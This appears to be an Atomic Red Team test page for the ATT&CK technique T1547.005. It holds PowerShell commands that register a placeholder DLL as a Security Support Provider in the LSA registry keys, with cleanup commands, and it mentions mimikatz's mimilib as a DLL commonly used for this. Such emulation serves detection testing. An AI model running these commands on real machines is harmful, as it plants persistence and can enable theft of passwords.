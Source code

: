 # T1547.005 - Boot or Logon Autostart Execution: Security Support Provider

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/005)

<blockquote>Adversaries may abuse security support providers (SSPs) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.(Citation: Graeber 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry](#atomic-test-1---modify-hklmsystemcurrentcontrolsetcontrollsa-security-support-provider-configuration-in-registry)

- [Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry](#atomic-test-2---modify-hklmsystemcurrentcontrolsetcontrollsaosconfig-security-support-provider-configuration-in-registry)

<br/>

## Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry

Add a value to a Windows registry Security Support Provider pointing to a payload .dll which will normally need to be copied in the system32 folder.
A common DLL used with this techquite is the minilib.dll from mimikatz, see https://pentestlab.blog/2019/10/21/persistence-security-support-provider/

**Supported Platforms:** Windows

**auto_generated_guid:** afdfd7e3-8a0b-409f-85f7-886fdf249c9e

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:

```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old';
```

<br/>
<br/>

## Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry

Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.

**Supported Platforms:** Windows

**auto_generated_guid:** de3f8e74-3351-4fdb-a442-265dbf231738

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:

```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old';
```

<br/>
